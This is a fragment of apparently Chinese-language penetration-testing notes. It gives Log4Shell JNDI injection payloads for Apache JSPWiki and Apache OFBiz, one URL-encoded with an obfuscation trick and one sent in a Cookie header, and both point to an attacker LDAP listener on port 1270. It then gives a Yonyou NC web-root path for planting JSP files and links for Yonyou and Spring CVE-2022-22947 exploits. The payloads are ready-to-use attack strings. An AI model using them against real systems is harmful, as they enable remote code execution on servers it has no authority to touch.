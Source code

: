 ```java

Apache JSPWiki:
http://localhost:8080/JSPWiki/wiki/$%7Bjndi:ldap:$%7B::-/%7D/10.0.0.6:1270/abc%7D/

Apache OFBiz:
"Cookie: OFBiz.Visitor=\${jndi:ldap://localhost:1270/abc}" https://localhost:8443/webtools/control/main
```
<a name="UWhvX"></a>
## NC 用友
物理路径：<br /> /ufsoft/nchome/webapps/nc_web/123.jsp  → 对应网站根目录<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1641872521740-b03e553f-6efd-4b21-b168-c03083eebea7.png#clientId=ue8b65251-5970-4&from=paste&height=179&id=u4d89086d&originHeight=357&originWidth=1741&originalType=binary&ratio=1&size=63219&status=done&style=none&taskId=u5c92145e-4cdf-4626-af70-547edb7b2e1&width=870.5)

用友漏洞大全<br />[https://cxybb.com/article/kelenwait/118098438](https://cxybb.com/article/kelenwait/118098438)

<a name="BbcPp"></a>
## spring漏洞
CVE-2022-22947<br />[https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947)
